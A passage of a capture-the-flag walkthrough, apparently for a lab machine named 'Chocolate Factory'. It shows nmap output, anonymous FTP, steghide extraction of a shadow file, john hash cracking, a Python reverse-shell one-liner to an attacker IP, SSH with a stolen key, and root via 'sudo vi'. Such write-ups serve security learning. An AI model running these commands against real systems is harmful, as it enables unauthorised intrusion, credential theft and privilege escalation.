SF:\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\
SF:\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\
SF:x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20_
SF:_:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\
SF:n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;----------
SF:-------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/
SF:\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|_
SF:_____________________;________________\|\r\n\r\nA\x20small\x20hint\x20f
SF:rom\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20he
SF:re!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port107-TCP:V=7.94%I=7%D=11/8%Time=654BEEFF%P=x86_64-pc-linux-gnu%r(RTS
SF:PRequest,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x2
SF:0\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.
SF:\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20
SF:____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\
SF:/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\
SF:'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x
SF:20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__
SF::\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n
SF:\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;-----------
SF:------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\
SF:x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|__
SF:____________________;________________\|\r\n\r\nA\x20small\x20hint\x20fr
SF:om\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20her
SF:e!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%
SF:r(SSLSessionReq,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20
SF:\x20\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.----------
SF:-----\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\
SF:x20\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\
SF:x20__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\
SF:x20\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20
SF:\\___\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\
SF:/\x20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\\\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;----
SF:-------------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\
SF:x20\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x2
SF:0\\\|______________________;________________\|\r\n\r\nA\x20small\x20hin
SF:t\x20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not
SF:\x20here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"
SF:\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port108-TCP:V=7.94%I=7%D=11/8%Time=654BEF04%P=x86_64-pc-linux-gnu%r(RPC
SF:Check,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20\x
SF:20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\r\
SF:n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20___
SF:_\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x
SF:20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'\\
SF:__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x20\
SF:\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\x2
SF:0\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;--------------
SF:---`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20
SF:\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|_____
SF:_________________;________________\|\r\n\r\nA\x20small\x20hint\x20from\
SF:x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here!\
SF:x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%r(S
SF:SLSessionReq,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x2
SF:0\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.-------------
SF:--\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20
SF:\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20
SF:__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20
SF:\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\_
SF:__\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x
SF:20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\
SF:\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;-------
SF:----------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20
SF:\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\
SF:\|______________________;________________\|\r\n\r\nA\x20small\x20hint\x
SF:20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x2
SF:0here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x2
SF:0");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 322.63 seconds
```

## FTP Anonymous Login

Anoymous login was enabled

```

ftp> ls -la
229 Entering Extended Passive Mode (|||35274|)
150 Here comes the directory listing.
drwxr-xr-x    2 65534    65534        4096 Oct 01  2020 .
drwxr-xr-x    2 65534    65534        4096 Oct 01  2020 ..
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg

```

## Stegcracker 

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ steghide --extract -sf gum_room.jpg 
Enter passphrase: 
wrote extracted data to "b64.txt".
                                                                                 
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ ls                                                         
gum_room.jpg  gum_room.jpg.out  images  README.md

```

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ cat gum_room.jpg.out 
ZGFlbW9uOio6MTgzODA6MDo5OTk5OTo3Ojo6CmJpbjoqOjE4MzgwOjA6OTk5OTk6Nzo6OgpzeXM6
KjoxODM4MDowOjk5OTk5Ojc6OjoKc3luYzoqOjE4MzgwOjA6OTk5OTk6Nzo6OgpnYW1lczoqOjE4
MzgwOjA6OTk5OTk6Nzo6OgptYW46KjoxODM4MDowOjk5OTk5Ojc6OjoKbHA6KjoxODM4MDowOjk5
OTk5Ojc6OjoKbWFpbDoqOjE4MzgwOjA6OTk5OTk6Nzo6OgpuZXdzOio6MTgzODA6MDo5OTk5OTo3
Ojo6CnV1Y3A6KjoxODM4MDowOjk5OTk5Ojc6OjoKcHJveHk6KjoxODM4MDowOjk5OTk5Ojc6OjoK
d3d3LWRhdGE6KjoxODM4MDowOjk5OTk5Ojc6OjoKYmFja3VwOio6MTgzODA6MDo5OTk5OTo3Ojo6
Cmxpc3Q6KjoxODM4MDowOjk5OTk5Ojc6OjoKaXJjOio6MTgzODA6MDo5OTk5OTo3Ojo6CmduYXRz
Oio6MTgzODA6MDo5OTk5OTo3Ojo6Cm5vYm9keToqOjE4MzgwOjA6OTk5OTk6Nzo6OgpzeXN0ZW1k
LXRpbWVzeW5jOio6MTgzODA6MDo5OTk5OTo3Ojo6CnN5c3RlbWQtbmV0d29yazoqOjE4MzgwOjA6
OTk5OTk6Nzo6OgpzeXN0ZW1kLXJlc29sdmU6KjoxODM4MDowOjk5OTk5Ojc6OjoKX2FwdDoqOjE4
MzgwOjA6OTk5OTk6Nzo6OgpteXNxbDohOjE4MzgyOjA6OTk5OTk6Nzo6Ogp0c3M6KjoxODM4Mjow
Ojk5OTk5Ojc6OjoKc2hlbGxpbmFib3g6KjoxODM4MjowOjk5OTk5Ojc6OjoKc3Ryb25nc3dhbjoq
OjE4MzgyOjA6OTk5OTk6Nzo6OgpudHA6KjoxODM4MjowOjk5OTk5Ojc6OjoKbWVzc2FnZWJ1czoq
OjE4MzgyOjA6OTk5OTk6Nzo6OgphcnB3YXRjaDohOjE4MzgyOjA6OTk5OTk6Nzo6OgpEZWJpYW4t
ZXhpbTohOjE4MzgyOjA6OTk5OTk6Nzo6Ogp1dWlkZDoqOjE4MzgyOjA6OTk5OTk6Nzo6OgpkZWJp
YW4tdG9yOio6MTgzODI6MDo5OTk5OTo3Ojo6CnJlZHNvY2tzOiE6MTgzODI6MDo5OTk5OTo3Ojo6
CmZyZWVyYWQ6KjoxODM4MjowOjk5OTk5Ojc6OjoKaW9kaW5lOio6MTgzODI6MDo5OTk5OTo3Ojo6
CnRjcGR1bXA6KjoxODM4MjowOjk5OTk5Ojc6OjoKbWlyZWRvOio6MTgzODI6MDo5OTk5OTo3Ojo6
CmRuc21hc3E6KjoxODM4MjowOjk5OTk5Ojc6OjoKcmVkaXM6KjoxODM4MjowOjk5OTk5Ojc6OjoK
dXNibXV4Oio6MTgzODI6MDo5OTk5OTo3Ojo6CnJ0a2l0Oio6MTgzODI6MDo5OTk5OTo3Ojo6CnNz
aGQ6KjoxODM4MjowOjk5OTk5Ojc6OjoKcG9zdGdyZXM6KjoxODM4MjowOjk5OTk5Ojc6OjoKYXZh
aGk6KjoxODM4MjowOjk5OTk5Ojc6OjoKc3R1bm5lbDQ6IToxODM4MjowOjk5OTk5Ojc6OjoKc3Ns
aDohOjE4MzgyOjA6OTk5OTk6Nzo6OgpubS1vcGVudnBuOio6MTgzODI6MDo5OTk5OTo3Ojo6Cm5t
LW9wZW5jb25uZWN0Oio6MTgzODI6MDo5OTk5OTo3Ojo6CnB1bHNlOio6MTgzODI6MDo5OTk5OTo3
Ojo6CnNhbmVkOio6MTgzODI6MDo5OTk5OTo3Ojo6CmluZXRzaW06KjoxODM4MjowOjk5OTk5Ojc6
OjoKY29sb3JkOio6MTgzODI6MDo5OTk5OTo3Ojo6CmkycHN2YzoqOjE4MzgyOjA6OTk5OTk6Nzo6
OgpkcmFkaXM6KjoxODM4MjowOjk5OTk5Ojc6OjoKYmVlZi14c3M6KjoxODM4MjowOjk5OTk5Ojc6
OjoKZ2VvY2x1ZToqOjE4MzgyOjA6OTk5OTk6Nzo6OgpsaWdodGRtOio6MTgzODI6MDo5OTk5OTo3
Ojo6CmtpbmctcGhpc2hlcjoqOjE4MzgyOjA6OTk5OTk6Nzo6OgpzeXN0ZW1kLWNvcmVkdW1wOiEh
OjE4Mzk2Ojo6Ojo6Cl9ycGM6KjoxODQ1MTowOjk5OTk5Ojc6OjoKc3RhdGQ6KjoxODQ1MTowOjk5
OTk5Ojc6OjoKX2d2bToqOjE4NDk2OjA6OTk5OTk6Nzo6OgpjaGFybGllOiQ2JENaSm5DUGVRV3A5
L2pwTngka2hHbEZkSUNKbnI4UjNKQy9qVFIycjdEcmJGTHA4enE4NDY5ZDNjMC56dUtONHNlNjFG
T2J3V0d4Y0hacU8yUkpIa2tMMWpqUFllZUd5SUpXRTgyWC86MTg1MzU6MDo5OTk5OTo3Ojo6Cg==
```



```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
(....)
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```



## Gobuster

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ gobuster dir -u http://10.10.183.103 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.183.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Brute force

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ john --wordlist=/home/kali/Desktop/rockyou.txt hash.txt --format=sha512crypt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:06 0.30% (ETA: 00:56:07) 0g/s 786.6p/s 786.6c/s 786.6C/s robbie01..mylove25
0g 0:00:03:40 0.97% (ETA: 01:08:28) 0g/s 749.6p/s 749.6c/s 749.6C/s 072897..051021
0g 0:00:09:22 2.22% (ETA: 01:51:36) 0g/s 661.5p/s 661.5c/s 661.5C/s 6122532..5555666
0g 0:00:14:04 3.26% (ETA: 02:01:59) 0g/s 640.3p/s 640.3c/s 640.3C/s Kelsea..KATIE01
0g 0:00:15:11 3.43% (ETA: 02:12:55) 0g/s 626.0p/s 626.0c/s 626.0C/s urman..united96
0g 0:00:23:17 5.33% (ETA: 02:07:25) 0g/s 625.4p/s 625.4c/s 625.4C/s lughnasa..lucygirl2
cn7824           (?)     
1g 0:00:26:06 DONE (2023-11-08 19:16) 0.000638g/s 628.6p/s 628.6c/s 628.6C/s cobb..cn1225
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

## Webpage

charlie:cn7824




After using the password from before to login we get to a webpage that can run commnads on the host machine.


```
ls -la 

total 1152
drwxr-xr-x 2 root    root       4096 Oct  6  2020 .
drwxr-xr-x 3 root    root       4096 Sep 29  2020 ..
-rw------- 1 root    root      12288 Oct  1  2020 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30  2020 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30  2020 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30  2020 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
```

getting a reverse shell.

```
which python

/usr/bin/python 
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.191.218",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```




### Upgrading the shell with Python pty module

```python -c 'import pty; pty.spawn("/bin/bash")'```


### Finding an ssh key
```
www-data@chocolate-factory:/home/charlie$ ls -la
ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
www-data@chocolate-factory:/home/charlie$ cat teleport.pub
cat teleport.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zdSH3xFgOtnwJQEOBYsQ1TJsXrSUyT1hA4ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory

```

### Logging in as Charlie with that RSA Key

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ ssh -i charlie_rsa charlie@10.10.49.132                    
The authenticity of host '10.10.49.132 (10.10.49.132)' can't be established.
ED25519 key fingerprint is SHA256:WwycVD8zBUVfJS6sNVj192MU3Q7P4rylVnanjGx/Q5U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.49.132' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov  9 00:41:15 UTC 2023

  System load:  0.0               Processes:           493
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 56%               IP address for eth0: 10.10.49.132
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

charlie@chocolate-factory:/$ 
```

## Priv Esc

```
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

```
charlie@chocolate-factory:/home/charlie$  sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
#
```

```
# ls
root.py
# cat root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```


## Key file

There was a file called key_rev_key on the html dir

```
charlie@chocolate-factory:/var/www/html$ ls
home.jpg  home.php  image.png  index.html  index.php.bak  key_rev_key  validate.php
```

### Using strings on the file

It is an elf file

```                                       
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ file key_rev_key 
key_rev_key: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
```

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ strings key_rev_key       
/lib64/ld-linux-x86-64.so.2
libc.so.6
__isoc99_scanf
puts
__stack_chk_fail
printf
__cxa_finalize
strcmp
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
5j       
%l       
%j       
%b       
%Z       
%R       
%J       
%b       
=9       
AWAVI
AUATL
[]A\A]A^A_
Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
;*3$"
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7698
__do_global_dtors_aux_fini_array_entry
```


```
# python root.py
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag{**********}
# 
```